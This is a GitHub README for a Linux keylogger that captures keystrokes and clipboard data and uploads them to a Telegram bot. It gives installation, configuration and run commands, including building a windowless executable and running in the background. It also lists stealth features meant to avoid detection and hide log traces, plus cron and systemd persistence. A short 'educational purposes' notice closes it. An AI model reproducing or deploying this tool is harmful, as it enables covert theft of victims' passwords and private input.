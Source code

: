 <div align="center">

# 🐧 Linux Keylogger

[![Python](https://img.shields.io/badge/Python-3.8+-blue?style=for-the-badge&logo=python&logoColor=white)](https://python.org)
[![Linux](https://img.shields.io/badge/Linux-Ubuntu%20%7C%20Debian%20%7C%20Kali-green?style=for-the-badge&logo=linux&logoColor=white)](https://ubuntu.com)
[![Author](https://img.shields.io/badge/Author-Akashr3-red?style=for-the-badge)](https://github.com/Akashr3)

*Advanced keylogging solution optimized for Linux environments*

---

</div>

## 🎯 Overview

This Linux implementation provides robust keylogging capabilities with advanced features specifically designed for Unix-like systems.

### ✨ Key Features

- **🔐 GTK Integration**: Native clipboard monitoring using GTK
- **🔄 Daemon Mode**: Background execution with double-fork technique
- **⏰ Cron Persistence**: Automatic startup via crontab
- **📱 Telegram Integration**: Real-time data transmission
- **🛡️ Error Handling**: Comprehensive exception management

---

## 🚀 Quick Start

### Prerequisites

```bash
# Update package list
sudo apt update

# Install Python and pip
sudo apt install python3 python3-pip

# Install GTK development libraries
sudo apt install python3-gi python3-gi-cairo gir1.2-gtk-3.0
```

### Installation

```bash
# Clone the repository
git clone https://github.com/Akashr3/keylogger.git
cd keylogger/Linux

# Install dependencies
pip3 install -r requirements.txt

# Configure your settings
nano keylogger.py  # Edit TOKEN, CHAT_ID, and INTERVAL
```

### Running the Keylogger

```bash
# Direct execution
python3 keylogger.py

# Background execution
nohup python3 keylogger.py &

# Create executable
pyinstaller --noconsole --onefile keylogger.py
```

---

## ⚙️ Configuration

### Essential Settings

Edit the following variables in `keylogger.py`:

```python
# Telegram Configuration
TOKEN = 'YOUR_TELEGRAM_BOT_TOKEN'    # Required
CHAT_ID = 'YOUR_TELEGRAM_CHAT_ID'    # Required
INTERVAL = 120                       # Upload interval (seconds)
```

### 🔧 Advanced Configuration

```python
# File naming pattern
FILENAME = f'{datetime.now().strftime(".%d%m%Y%H%M%S")}.log'

# Jitter settings for stealth
def nap(min_delay=1, max_delay=100):
    t = gauss(25, 10)
    return max(min_delay, min(t, max_delay))
```

---

## 🛠️ Technical Details

### Architecture

```mermaid
graph TD
    A[Keylogger Start] --> B[Daemon Process]
    B --> C[GTK Clipboard Monitor]
    B --> D[Keyboard Listener]
    C --> E[Data Collection]
    D --> E
    E --> F[Local File Storage]
    F --> G[Telegram Uploader]
    G --> H[Remote Server]
```

### Key Components

| Component | Purpose | Technology |
|-----------|---------|------------|
| **Keyboard Listener** | Captures keystrokes | `pynput` |
| **Clipboard Monitor** | Tracks clipboard data | `GTK3` + `pyperclip` |
| **File Manager** | Local data storage | Python file I/O |
| **Uploader** | Remote transmission | `requests` + Telegram API |
| **Persistence** | Auto-start mechanism | `crontab` |

---

## 📋 Dependencies

### Core Requirements

```txt
pynput>=1.7.6          # Keyboard and mouse input
requests>=2.28.0        # HTTP requests
pyperclip>=1.8.2        # Clipboard access
PyGObject>=3.42.0       # GTK bindings
```

### System Requirements

- **OS**: Linux (Ubuntu 18.04+, Debian 10+, Kali Linux)
- **Python**: 3.8 or higher
- **Memory**: 50MB minimum
- **Storage**: 10MB for logs

---

## 🔧 Usage Examples

### Basic Usage

```bash
# Run with default settings
python3 keylogger.py

# Run with custom interval
python3 keylogger.py --interval 300

# Run in background
nohup python3 keylogger.py > /dev/null 2>&1 &
```

### Advanced Usage

```bash
# Create systemd service
sudo cp keylogger.service /etc/systemd/system/
sudo systemctl enable keylogger
sudo systemctl start keylogger

# Monitor logs
tail -f /var/log/keylogger.log

# Check status
ps aux | grep keylogger
```

---

## 🐛 Troubleshooting

### Common Issues

| Issue | Solution |
|-------|----------|
| **GTK Import Error** | Install `python3-gi` and `gir1.2-gtk-3.0` |
| **Permission Denied** | Run with `sudo` or check file permissions |
| **Telegram API Error** | Verify `TOKEN` and `CHAT_ID` |
| **Cron Not Working** | Check crontab syntax and permissions |

### Debug Mode

```bash
# Enable debug logging
export DEBUG=1
python3 keylogger.py

# Check system logs
journalctl -u keylogger -f
```

---

## 🔒 Security Considerations

### Stealth Features

- **Double-fork daemonization** for background operation
- **Jitter-based timing** to avoid detection patterns
- **Error suppression** to minimize log traces
- **Cron persistence** for automatic restart

### Best Practices

- Use on systems you own or have explicit permission
- Regularly rotate log files
- Monitor system resources
- Keep dependencies updated

---

## 📞 Support

<div align="center">

### 🆘 Need Help?

[![GitHub Issues](https://img.shields.io/badge/GitHub-Issues-black?style=for-the-badge&logo=github)](https://github.com/Akashr3/keylogger/issues)
[![GitHub Discussions](https://img.shields.io/badge/GitHub-Discussions-blue?style=for-the-badge&logo=github)](https://github.com/Akashr3/keylogger/discussions)

### 👨‍💻 Author

[![GitHub](https://img.shields.io/badge/GitHub-Akashr3-black?style=for-the-badge&logo=github)](https://github.com/Akashr3)

---

**⚠️ Legal Notice**: This tool is for educational purposes only. Use responsibly and in compliance with applicable laws.

</div>